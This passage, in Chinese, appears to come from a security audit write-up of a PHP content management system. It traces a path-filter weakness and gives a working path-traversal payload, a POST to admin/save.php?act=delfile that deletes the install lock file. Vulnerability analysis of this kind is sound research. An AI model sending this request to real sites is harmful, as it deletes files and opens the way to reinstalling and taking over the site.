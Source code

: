 
首先判断传入的参数是否为空，然后拼接路径，第516行中出现了一个函数`ifstrin`,我们跟进看看

![file](./img/1.5.5.png)

只是个简单的判断没啥特殊情况，我们再来看看拿来调用了这个文件。

![file](./img/1.5.6.png)


```
function file_path( $path ) {
    $list=array();
	$path= substr( $path, 0, strrpos( $path, '/' ));
    $list=splits($path,'/');
    return $list;
}

function arr_search($arr1, $arr2 ) {
    $result=false;
    foreach ( $arr1 as $v ) {
       if(in_array( $v,$arr2 )) return true;        
    }
    return $result;
}

```
获取参数，然后看看我们传入的路径是否存在这个数组里面的值，也就是基本上是没有过滤的，因为我们完全可以通过../ 跳回去。

payload：

```
POST /zzzp6p/admin/save.php?act=delfile

path=/zzzp6p/upload/../install/1install.lock

```
这里我们走的下面的分支不能删除 `array( 'php', 'db', 'mdb', 'tpl' )` 这个数组的文件。
